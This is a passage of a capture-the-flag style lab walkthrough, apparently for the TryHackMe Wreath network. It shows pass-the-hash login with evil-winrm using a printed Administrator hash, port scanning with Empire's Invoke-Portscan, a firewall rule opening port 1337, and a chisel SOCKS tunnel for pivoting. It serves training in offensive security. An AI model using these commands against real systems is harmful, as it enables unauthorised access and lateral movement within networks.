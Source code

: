 To use evil-winrm with administrator hash

```bash
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.186.150
```

## Personal PC

### Enumeration

Scanning `10.200.186.100` ports using evil-winrm with empire scripts `Invoke-Portscan`

```bash
kali㉿kali-[~/thm/wreath]$ evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.186.150 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/                                                
Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan.ps1
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.186.100 -TopPorts 50


Hostname      : 10.200.186.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 110, 21...}
finishTime    : 10/4/2021 10:18:49 AM
```

### Pivoting 

using xfreerdp we open a port 1337 on `10.200.186.100` and we run chisel froward proxy

```batch
C:\Windows\system32>netsh advfirewall firewall add rule name="elite" dir=in action=allow protocol=tcp localport=1337
Ok.

C:\Windows\system32>\\tsclient\kali\chisel.exe server -p 1337 --socks5
2021/10/04 10:44:26 server: Fingerprint nlNxYDUfQIWr6tuoMggLSdV7w62hcPlchYb8B6bhiSk=
2021/10/04 10:44:26 server: Listening on http://0.0.0.0:1337
```

```bash
kali㉿kali-[~/thm/wreath]$ ./chisel client 10.200.186.150:1337 1337:socks     130 ⨯
2021/10/04 11:44:07 client: Connecting to ws://10.200.186.150:1337
2021/10/04 11:44:07 client: tun: proxy#127.0.0.1:1337=>socks: Listening
2021/10/04 11:44:43 client: Connected (Latency 1.35310808s)
```
